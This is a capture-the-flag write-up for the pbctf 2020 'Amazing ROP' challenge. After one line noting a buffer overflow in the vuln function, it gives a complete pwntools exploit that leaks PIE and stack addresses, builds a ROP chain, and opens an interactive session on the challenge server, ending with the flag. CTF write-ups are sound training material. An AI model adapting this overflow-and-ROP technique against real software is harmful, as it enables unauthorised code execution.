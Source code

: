 Pwn_Amazing ROP
====

```
Should be a baby ROP challenge. Just need to follow direction and get first flag.

nc maze.chal.perfect.blue 1

By: theKidOfArcrania
```

[bof.c]([ bof.c (storage.googleapis.com)](https://storage.googleapis.com/pbctf-2020-ctfd/8e94e6f057143f9eba46a581a94a69b0/bof.c)) [bof.bin]([ bof.bin (storage.googleapis.com)](https://storage.googleapis.com/pbctf-2020-ctfd/b315ab20c9c4608a9172d80bd3dcf4e1/bof.bin))

`nc maze.chal.perfect.blue 1`

---

`vuln` funciton is vulnerable by BOF. Therefore we can exploit with ROP attack. I get the flag by using the way of obtaining the flag shown in the source code.

```python
from pwn import *

e = ELF('./bof.bin')
# p = e.process(aslr=False)
p = remote('maze.chal.perfect.blue', 1)

context.log_level = 0

pie_off = 0x4f5c
gadget = 0x000013ad
esi_edi_ebp = 0x00001396

p.sendlineafter(b'n) ','n')

'''
set buf
'''
pay = p64(0)*4
pay += p32(0xFFFFFFFF)*4

'''
set secret
'''
pay += p32(0x67616c66)

'''
get pie
set stack
'''
p.recvuntil(b'ef be ad de ')
x = bytes.fromhex(p.recvuntil('|')[:-1].replace(b' ',b'').decode())
pay += x
pie = int.from_bytes(x,'little') - pie_off
print(hex(pie))
p.recvuntil(b'|')
pay += bytes.fromhex(p.recv(len(' 5c df 61 56 ')).replace(b' ',b'').decode())
ebp = bytes.fromhex(p.recvuntil('|')[:-1].replace(b' ',b'').decode())
pay += ebp
ebp = int.from_bytes(ebp,'little')
p.recvuntil(b'|')
ret = bytes.fromhex(p.recv(len(' 5c df 61 56 ')).replace(b' ',b'').decode())
print(hex(int.from_bytes(ret,'little')))
wtf = bytes.fromhex(p.recvuntil('|')[:-1].replace(b' ',b'').decode())

'''
set ret
'''
pay += p32(pie + esi_edi_ebp)
pay += p32(0x1337)
pay += p32(0x31337)
pay += p32(ebp)
pay += p32(pie + gadget)
pay += p32(1)


p.sendlineafter(b'text: ',pay)
sleep(0.1)
p.recvuntil('address: ')
p.recvline()

p.interactive()
```

`pbctf{hmm_s0mething_l00ks_off_w1th_th1s_s3tup}`